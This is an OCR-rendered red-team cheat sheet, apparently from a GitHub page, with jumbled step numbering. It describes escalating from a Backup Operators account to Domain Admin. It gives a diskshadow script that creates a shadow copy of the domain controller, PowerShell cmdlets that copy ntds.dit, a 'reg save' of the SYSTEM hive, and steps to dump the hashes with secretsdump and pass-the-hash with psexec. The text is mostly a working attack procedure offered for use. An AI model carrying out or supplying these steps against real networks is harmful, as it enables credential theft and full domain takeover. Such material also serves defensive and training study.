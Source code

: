 *WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.*

1. Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
2. #Create a .txt file that will contain the shadow copy process script
3. Script ->{
4. set context persistent nowriters
5. set metadata c:\windows\system32\spool\drivers\color\example.cab
6. set verbose on
7. begin backup
8. add volume c: alias mydrive

> 9.
> 
> 
> 10. create
> 
> 11.
> 
1. expose %mydrive% w:
2. end backup
3. }

> 15.
> 
1. #Execute diskshadow with our script as parameter

diskshadow /s script.txt

1. Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:
2. #Importing both dlls from the repo using powershell
3. Import-Module .\SeBackupPrivilegeCmdLets.dll
4. Import-Module .\SeBackupPrivilegeUtils.dll
5. #Checking if the SeBackupPrivilege is enabled
6. Get-SeBackupPrivilege

> 23.
> 
> 
> 24. #If it isn't we enable it 25. Set-SeBackupPrivilege
> 
> 26.
> 
1. #Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
2. Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit Overwrite

> 29.
> 
1. #Dump the SYSTEM hive reg save HKLM\SYSTEM c:\temp\system.hive
2. Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
3. Use secretsdump.py from impacket and dump the hashes.
4. Use psexec or another tool of your choice to PTH and get Domain Admin access.

